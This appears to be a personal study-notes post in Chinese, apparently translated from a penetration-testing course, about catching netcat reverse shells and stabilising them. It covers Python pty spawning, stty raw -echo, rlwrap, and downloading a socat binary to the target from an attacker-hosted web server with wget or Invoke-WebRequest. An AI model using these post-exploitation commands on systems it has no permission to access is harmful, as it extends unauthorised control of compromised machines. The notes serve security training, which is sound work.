 ```yaml
---
profileName: redcamellia
postId: "40"
postType: post
categories:
  - 3
---
```

Reverse shell listen:
nc -nlvp \[PORT]
	 -l 用于告诉 netcat 这将是一个侦听器
    -v 用于请求详细输出
    -n 告诉 netcat 不要解析主机名或使用 DNS。
    -p 表示将遵循端口规范。
Netcat Shell Stabilisation：
```
默认情况下，这些 shell 非常不稳定。按 Ctrl + C 会杀死整个事情。它们是非交互式的，并且经常有奇怪的格式错误。这是因为 netcat 的“shell”实际上是在终端内运行的进程，而不是真正的终端。幸运的是，有很多方法可以稳定 Linux 系统上的 netcat shell。我们将在这里看三个。Windows 反向 shell 的稳定性往往要困难得多;但是，我们将在这里介绍的第二种技术对它特别有用。
```
 _技术 1：Python_
	\1. 首先要做的是使用 `python -c 'import pty;pty.spawn("/bin/bash")'` ，它使用 Python 生成功能更好的 bash shell;请注意，某些目标可能需要指定的 Python 版本。如果是这种情况，请根据需要将 `python` 替换为 `python2` 或 `python3` 。在这一点上，我们的 shell 看起来会更漂亮一些，但我们仍然无法使用 tab 自动完成或箭头键，并且 Ctrl + C 仍然会杀死 shell。
	2.第二步是： `export TERM=xterm` -- 这将使我们能够访问术语命令，例如 `clear` 。
	3.最后（也是最重要的）我们将使用 Ctrl + Z 对 shell 进行背景处理。回到我们自己的终端中，我们使用 `stty raw -echo; fg` 。这做了两件事：首先，它关闭了我们自己的终端回显（它使我们能够访问 Tab 自动完成、箭头键和 Ctrl + C 来终止进程）。然后，它使shell成为前景，从而完成该过程。
	![[Pasted image 20231208172838.png]]
	请注意，如果 shell died，您自己的终端中的任何输入都将不可见（由于禁用了终端回显）。若要解决此问题，请键入 `reset` 并按 Enter。
_技术 2：rlwrap_
	rlwrap是一个程序，简单来说，它使我们能够在收到 shell 后立即访问历史记录、Tab 自动完成和箭头键;但是，如果您希望能够在 shell 内使用 Ctrl + C，仍必须使用一些手动稳定功能。默认情况下，Kali 上未安装 rlwrap，因此请先使用 `sudo apt install rlwrap` 安装它。
	为了使用 rlwrap，我们调用了一个稍微不同的侦听器：
	`rlwrap nc -lvnp <port>`
	在 netcat 监听器前面加上 “rlwrap” 为我们提供了一个功能更全面的 shell。这种技术在处理 Windows shell 时特别有用，否则很难稳定。在处理 Linux 目标时，可以使用与上一种技术的第三步相同的技巧来完全稳定：使用 Ctrl + Z 使 shell 进入后台，然后使用 `stty raw -echo; fg` 稳定并重新进入 shell。
_技术3：socat
	稳定 shell 的第三种简单方法是使用初始 netcat shell 作为进入功能更全面的 socat shell 的垫脚石。请记住，此技术仅限于 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。为了实现这种稳定方法，我们首先将 socat 静态编译的二进制文件（编译为没有依赖关系的程序版本）传输到目标机器。实现此目的的典型方法是在攻击计算机上包含 socat 二进制文件 （ `sudo python3 -m http.server 80` ） 的目录中使用 Web 服务器，然后在目标计算机上使用 netcat shell 下载文件。在Linux上，这将通过curl或wget（ `wget <LOCAL-IP>/socat -O /tmp/socat` ）完成。
	-----------------------------------------
	为了完整起见：在Windows CLI环境中，可以使用Invoke-WebRequest或webrequest系统类使用Powershell完成相同的操作，具体取决于安装的Powershell版本（ `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` ）。在即将到来的任务中，我们将介绍使用 Socat 发送和接收 shell 的语法。
使用上述任何一种技术，能够更改终端 tty 大小都很有用。这是您的终端在使用常规 shell 时会自动执行的操作;但是，如果要使用覆盖屏幕上所有内容的文本编辑器之类的东西，则必须在反向或绑定 shell 中手动完成。
首先，打开另一个终端并运行 `stty -a` 。这将为您提供大量输出。记下“rows”和 columns 的值：
![[Pasted image 20231208173926.png]]
接下来，在反向/绑定 shell 中，键入：
`stty rows <number>`  
and 和
`stty cols <number>`
填写您在自己的终端中运行命令后获得的数字。这将改变终端的注册宽度和高度，从而允许依赖此类信息准确的文本编辑器等程序正确打开。